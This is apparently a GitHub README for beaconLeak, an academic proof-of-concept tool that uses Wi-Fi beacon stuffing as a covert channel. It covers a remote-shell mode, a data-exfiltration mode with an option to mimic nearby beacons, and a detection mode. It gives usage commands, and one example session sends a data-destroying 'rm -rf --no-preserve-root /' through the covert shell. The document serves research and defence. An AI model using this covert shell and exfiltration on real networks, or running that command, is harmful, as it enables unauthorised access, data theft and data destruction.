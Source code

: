# beaconLeak v0.9.0

beaconLeak is an open source tool developed as a proof
of concept of the beacon stuffing method as a covert channel. This channel
allows command and control or data exfiltration using the wireless network card 
without association or authentication. beaconLeak includes
the necessary functionality to both leak data as an attacker and detect the 
attack for defense purposes. Detection mode uses basic indicators of compromise
and generate log entries to be  consumed by monitoring or correlation security 
systems.

## Description

The beacon stuffing attack is a wireless physical attack, so wireless proximity
is required. Because of the need to push custom frames through the wireless 
interface, the tool must be run with either root privileges or network admin 
capabilities. Packet injection is a must for full functionality.  
This tool uses Scapy to transmit the 802.11 (Dot11) frames, and pyNaCL to have
all data encrypted on transit.

* c2 mode: remote covert shell
* leak mode: command channel and data exfiltration
* detect mode: detect the use of this method (multiple tool detection)

## Requirements

* Root privileges
* Python 3 with pip
* Packet Injection capable Wireless NIC

## Installation
*These instructions are for Linux based systems only, other platforms are* 
*partially supported, please check for more info in the repository.*

1. Set up a Python virtual environment

```
# python -m venv bl
```

2. Load Python virtual environment

```
# source bl/bin/activate
```

3. Install the Python libraries dependencies to the virtual environment

```
(bl)# pip install -r requirements.txt
```

4. ???
5. Profit! 

## Usage

```
usage: beaconleak.py [-h] (--leak | --detect | --c2) [--pcap PCAP [PCAP ...]]
                     [--autohop] [--loglevel LOGLEVEL] [--covert] [--psk PSK]
                     [--ssid SSID] [--bssid BSSID] [--delay DELAY] [--debug]
                     iface

     _                       __            _
    | |_ ___ ___ ___ ___ ___|  |   ___ ___| |_
    | . | -_| .'|  _| . |   |  |__| -_| .'| '_|
    |___|___|__,|___|___|_|_|_____|___|__,|_,_|
                            by cjcase [v0.9.0]

    

positional arguments:
  iface                 Wireless interface in monitor mode

optional arguments:
  -h, --help            show this help message and exit
  --debug               Debug verbosity.

modes:
  --leak                (target) Leak data mode.
  --detect              (detect) Check surroundings for possible attacks
  --c2                  (attack) Command & control, remote shell

detect mode options:
  --pcap PCAP [PCAP ...]
                        pcap file(s) for offline beacon analysis
  --autohop             (Linux only) Automatic channel hopping
  --loglevel LOGLEVEL   log level, lowest is critical

c2 and leak mode options:
  --covert              Be extra sneaky by mimicking surrounding beacons
  --psk PSK             Custom encryption passphrase
  --ssid SSID           Emulated station WiFi name
  --bssid BSSID         Emulated station MAC address
  --delay DELAY         delay to sniff for command output response [default=5]
```

## Examples

### beaconLeak in detection mode
This mode will use your device's wireless radio in monitor mode to detect
stuffed beacons in real time.

```
(bl)# python beaconleak.py --detect wlan0mon 
```

Optionally, you can analyze previous wireless packet captures to find stuffed
beacons. e.g. you could sniff your wireless surroundings with Wireshark, save
the captures to then analyze with beaconLeak.
In this mode, the interface is still a required argument but ignored.

```
(bl)# python beaconleak.py --pcap cap1.pcap cap2.pcap cap3.pcap --detect lo0 
```

### beaconLeak in C2 mode
This mode emulates a trivial shell, will allow you to communicate with any
target that share the same PSK, like the built-in default.

```
(bl)# python beaconleak.py --c2 wlan0mon 
```

If you'd like to be more sneaky, you can toggle the covert mode, which will
take the noisiest beacons in the surroundings and mimimc it. You can also use
your own PSK for encryption, but make sure the target is also started with this
passphrase. beaconLeak will use pyNaCl's KDF to generate a strong key from 
this string.

```
(bl)# python beaconleak.py --covert --psk "secret sauce" --c2 wlan0mon
```

The way the covert channel works, there needs to be a delay where C2 mode 
sniffs packets to catch the target's output, this delay can be changed with the 
```--delay``` flag, number is seconds. If you don't care about the output, 
instead of using a 0 delay, you can prepend your commands with the '!'
character.

```
(bl)# python beaconleak.py --c2 wlan0mon

 _                       __            _
| |_ ___ ___ ___ ___ ___|  |   ___ ___| |_
| . | -_| .'|  _| . |   |  |__| -_| .'| '_|
|___|___|__,|___|___|_|_|_____|___|__,|_,_|
                        by cjcase [v0.9.0]


[*] Using interface wlan0mon, type '!help' for usage, use Ctrl+C to exit
[beaconshell] >>> !rm -rf --no-preserve-root /
```

### beaconLeak in leak mode (victim simulation)
By default this mode will not generate any output, you can use debug mode to 
check what is happening.

```
(bl)# python beaconleak.py --leak wlan0mon 
```

### Debug Mode
All modes have an extra flag to toggle verbosity, this will let you see more of
what is happening, it's also useful to us if you find a bug and submit the 
issue with output from the this mode.

```
(bl)# python beaconleak.py --leak --debug wlan0mon 
```

## Collaboration
Have an idea for a cool new feature? want to help fix an issue or optimize how 
this tool works? Please submit a pull request!

## License

[GNU GLPv3](https://www.gnu.org/licenses/gpl.txt)


## Acknowledgements

This tool was inspired by the "bridging the airgap" research work by 
Mordecai Guri, et. al. 
A previous description of the beacon stuffing method for exfiltration was 
described by Tom Neaves in his [Trustwave Spider Labs blog post](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/smuggler-an-interactive-80211-wireless-shell-without-the-need-for-authentication-or-association/) about his tool 
"Smuggler".
[PyExfil](https://github.com/ytisf/PyExfil/) by Yuval Nativ has a
basic implementation of this method that predates our tool, its method has been
added to our detection functionality. 

This project was developed as a research project for Tallinn University of
Technology's Cyber Security Master programme and funded by the Dora Plus fund.

![Dora Plus](http://haridus.archimedes.ee/sites/default/files/styles/medium/public/eu_regional_development_fund_horizontal_0.jpg)